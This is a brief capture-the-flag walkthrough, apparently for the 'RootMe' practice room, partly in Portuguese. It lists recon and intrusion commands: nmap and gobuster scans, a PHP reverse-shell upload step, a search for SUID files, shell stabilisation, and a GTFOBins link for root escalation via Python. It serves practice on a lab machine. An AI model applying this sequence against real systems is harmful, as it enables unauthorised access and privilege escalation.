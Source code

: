 
# ROOTME

### Scan the machine, how many ports are open?
```bash
nmap "IP"
 ```

### What version of Apache is running?
```bash
  nmap f -sSVC "IP" 

- "-sV" (version detect)
 ```

### Find a form to upload and get a reverse shell, and find the flag.
```bash
- File reverse shell .php (rename file)
 ```
## Encontrar arquivos com permissoes 
#### Search for files with SUID permission, which file is weird?
```bash
find / -perm -u=s -ls 2>/dev/null
```
### Melhorar a Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo && fg
export TERM=xterm
```

## Gobuster 
###  What is the hidden directory?
```bash
sudo gobuster dir -u http://0.0.0.0/ -x txt,php,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 2> /dev/null
 ```   
## Find File
#### root.txt
```bash
find / -type f -name root.txt
 ``` 
## Site SUID
#### Find a form to escalate your privileges.
```bash
https://gtfobins.github.io/gtfobins/python/
 ```  